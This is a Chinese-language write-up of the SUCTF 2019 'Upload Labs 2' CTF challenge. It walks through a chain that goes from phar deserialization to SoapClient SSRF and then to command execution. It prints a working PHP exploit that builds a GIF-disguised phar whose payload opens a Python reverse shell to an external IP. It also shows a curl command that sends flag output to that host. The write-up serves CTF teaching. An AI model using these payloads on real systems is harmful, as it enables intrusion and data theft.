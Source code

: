 # \[SUCTF 2019]Upload Labs 2

## \[SUCTF 2019]Upload Labs 2

## 考点

* 代码审计
* phar反序列化
* PHP SoapClient 反序列化触发SSRF
* 使用phar://缺不能以phar开头时，可以使用`php://filter/resource=phar://`
* finfo\_file() 结合 php://filter 触发 phar 反序列化

## wp

有两个功能，上传图片和查看图片信息。

给了源码，和修改后的admin.php，要进行审计

index. php是文件上传功能，白名单限制。func.php是文件读取功能，返回文件的MIME。class.php定义了File类和Check类。至此基本判断是phar反序列化。

首先是index.php，说明了上传路径为 `upload/md5($_SERVER["REMOTE_ADDR"])`，然后采用白名单的方式限制后缀和content-type，最后调用Check类的check函数对上传文件内容做一个检查，不允许`<?`存在。对于func.php，是获取上传的文件，采用黑名单的方式封禁了很多PHP伪协议。然后调用自定义的File类来获取文件

然后找获取flag的地方，在admin.php的Ad类的`__destruct()`使用了system函数，也就是说要<mark style="background-color:orange;">对Ad类进行实例化，或者反序列化</mark>。

```php
class Ad{
    public $cmd;
    public $clazz;
    public $func1;
    public $func2;
    public $func3;
    public $instance;
    public $arg1;
    public $arg2;
    public $arg3;
    function __construct($cmd, $clazz, $func1, $func2, $func3, $arg1, $arg2, $arg3){
        $this->cmd = $cmd;
        $this->clazz = $clazz;
        $this->func1 = $func1;
        $this->func2 = $func2;
        $this->func3 = $func3;
        $this->arg1 = $arg1;
        $this->arg2 = $arg2;
        $this->arg3 = $arg3;
    }
    function check(){
        $reflect = new ReflectionClass($this->clazz);
        $this->instance = $reflect->newInstanceArgs();
        $reflectionMethod = new ReflectionMethod($this->clazz, $this->func1);
        $reflectionMethod->invoke($this->instance, $this->arg1);
        $reflectionMethod = new ReflectionMethod($this->clazz, $this->func2);
        $reflectionMethod->invoke($this->instance, $this->arg2);
        $reflectionMethod = new ReflectionMethod($this->clazz, $this->func3);
        $reflectionMethod->invoke($this->instance, $this->arg3);
    }
    function __destruct(){
        system($this->cmd);
    }
```

接着看，在admin.php中如果是本地访问，并且POST参数admin，就可以实例化Ad类，并且Ad类的参数都可以用POST提交。

```php
if($_SERVER['REMOTE_ADDR'] == '127.0.0.1'){
    if(isset($_POST['admin'])){
        $cmd = $_POST['cmd'];

        $clazz = $_POST['clazz'];
        $func1 = $_POST['func1'];
        $func2 = $_POST['func2'];
        $func3 = $_POST['func3'];
        $arg1 = $_POST['arg1'];
        $arg2 = $_POST['arg2'];
        $arg3 = $_POST['arg3'];
        $admin = new Ad($cmd, $clazz, $func1, $func2, $func3, $arg1, $arg2, $arg3);
        $admin->check();
    }
}
```

但是Ad类的`check()`函数的含义是什么？首先通过反射获取`$this->clazz`类，然后构造一个没有属性的`$this->clazz`类的实例化对象，最后分别获取`$this->clazz`类的`$this->func1`，`$this->func2`，`$this->func3`函数，并分别把`$this->arg1`，`$this->arg2`，`$this->arg3`传入执行。通过反射创建的类大概如下，这里类的方法和其参数都可以相同。

```php
Class clazz{
    function func1($arg1){
        ...
    }
    function func2($arg2){
        ...
    }
    function func3($arg3){
        ...
    }
}
```

这里可以使用<mark style="background-color:red;">SplStack类和它的push方法</mark>。POST数据

```
admin=1&cmd=curl "http://121.5.66.238:20010/?a=`/readflag`"&clazz=SplStack&func1=push&func2=push&func3=push&arg1=123456&arg2=123456&arg3=123456
```

要想让 admin.php 去实例化Ad类，就要让 REMOTE\_ADDR 为 127.0.0.1，即本地访问，接下来的问题就是如何去实现SSRF

而在反序列化里面可以实现SSRF的是SoapClient类，接下来就要找触发SoapClient 的位置。<mark style="background-color:orange;">可以看到在 File 类中的 \_\_wakeup() 存在一个反射，那就可通过这个反射，来获取SoapClient对象，然后调用SoapClient对象的check函数，这个check函数SoapClien中并不存在，就可以触发SoapClient的SSRF</mark>

```php
class File{
    public $file_name;
    public $type;
    public $func = "Check";
    function __construct($file_name){
        $this->file_name = $file_name;
    }
    function __wakeup(){
        $class = new ReflectionClass($this->func);
        $a = $class->newInstanceArgs($this->file_name);
        $a->check();
    }
    function getMIME(){
        $finfo = finfo_open(FILEINFO_MIME_TYPE);
        $this->type = finfo_file($finfo, $this->file_name);
        finfo_close($finfo);
    }
    function __toString(){
        return $this->type;
    }
}
```

接下来就是如何让 File() 类反序列化。finfo\_file可以触发phar反序列化，但是在 fuc.php 不能传 phar:// 开头的字符串。<mark style="background-color:green;">在PHP中，php://filter/resource这个伪协议可以触发phar反序列化，所以在 fuc.php 不能传 phar:// 开头的字符串，可以使用 php://filter/resource=phar://......进行绕过</mark>

这里直接放反弹shell的exp

```php
<?php

class File{
	public $file_name;
	public $func="SoapClient";
	public function __construct(){
		$payload='admin=1&cmd=python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("121.5.66.238",20010));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);\'&clazz=SplStack&func1=push&func2=push&func3=push&arg1=123456&arg2=123456&arg3=123456';
		$this->file_name=[null,array('location'=>'http://127.0.0.1/admin.php','user_agent'=>"xxx\r\nContent-Type: application/x-www-form-urlencoded\r\nContent-Length: ".strlen($payload)."\r\n\r\n".$payload,'uri'=>'abc')];
	}	
}
$a=new File();
@unlink("phar.phar");
$phar=new Phar("phar.phar");
$phar->startBuffering(); 
$phar->setStub('GIF89a'.'<script language="php">__HALT_COMPILER();</script>');
$phar->setMetadata($a); 
$phar->addFromString("test.txt", "test");
$phar->stopBuffering();
?>
```

使用上面的exp生成phar，改名为1.gif，再上传。在vps监听端口，在 fuc.php 中输入`php://filter/resource=phar://upload/cc551ab005b2e60fbdc88de809b2c4b1/b1467d0a5330091b554e2d892f7e8308.gif`，就可以反弹shell了

![](<../../.gitbook/assets/image (14) (1).png>)

![](<../../.gitbook/assets/image (34).png>)

或者是cmd改成``curl "http://121.5.66.238:20010/?a=`/readflag`"``直接获取flag

![](<../../.gitbook/assets/image (24).png>)

## 小结

1. 原题预期解是MySQL 客户端任意文件读取（MySQL Client Attack），改代码后简化了很多
2. [SUCTF 2019 Upload labs 2 踩坑记录](https://www.cnblogs.com/peri0d/p/12465523.html)
3. [https://www.cnblogs.com/tr1ple/p/11394464.html](https://www.cnblogs.com/tr1ple/p/11394464.html)
